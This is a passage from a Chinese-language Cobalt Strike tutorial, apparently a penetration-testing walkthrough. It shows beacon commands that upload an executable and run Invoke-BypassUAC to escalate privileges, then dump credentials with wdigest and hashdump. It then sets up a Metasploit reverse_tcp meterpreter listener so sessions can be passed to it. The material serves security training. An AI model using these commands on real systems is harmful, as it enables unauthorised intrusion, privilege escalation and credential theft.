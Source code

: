    
    beacon> cd E:
    beacon> upload /Users/evi1cg/Desktop/test.exe 
    

加载powershell执行后门：

    
    
    beacon> powershell-import /Users/evi1cg/Pentest/Powershell/MyShell/invoke-BypassUAC.ps1
    beacon> powershell Invoke-BypassUAC -Command 'E:\test.exe'
    

然后他就破了：

![Alt text](http://static.wooyun.org//drops/20151108/20151108071442659801446820436277.png)

使用那个破了的电脑的beacon读取密码：

    
    
    beacon> sleep 0
    beacon> wdigest
    

![Alt text](http://static.wooyun.org//drops/20151108/20151108071444190801446820592294.png)

    
    
    beacon> hashdump
    

![Alt text](http://static.wooyun.org//drops/20151108/20151108071445528601446820676004.png)

# 0x06 与msf联动

* * *

cobalt strike3.0 不再使用Metasploit框架而作为一个独立的平台使用，那么怎么通过cobaltstrike获取到meterpreter呢，别担心，可以做到的。 首先我们使用msf的reverse_tcp开启监听模式：

    
    
    msf > use exploit/multi/handler 
    msf exploit(handler) > set payload windows/meterpreter
    msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(handler) > set lhost 192.168.74.1 
    lhost => 192.168.74.1
    msf exploit(handler) > set lport 5555
    lport => 5555
    msf exploit(handler) > exploit -j
    

之后使用Cobalt Strike创建一个windows/foreign/reverse_tcp Listener：

![Alt text](http://static.wooyun.org//drops/20151108/20151108071454469511446822931458.png)

其中ip为msf的ip地址，端口为msf所监听的端口。  
然后选中计算机，右键->Spawn:
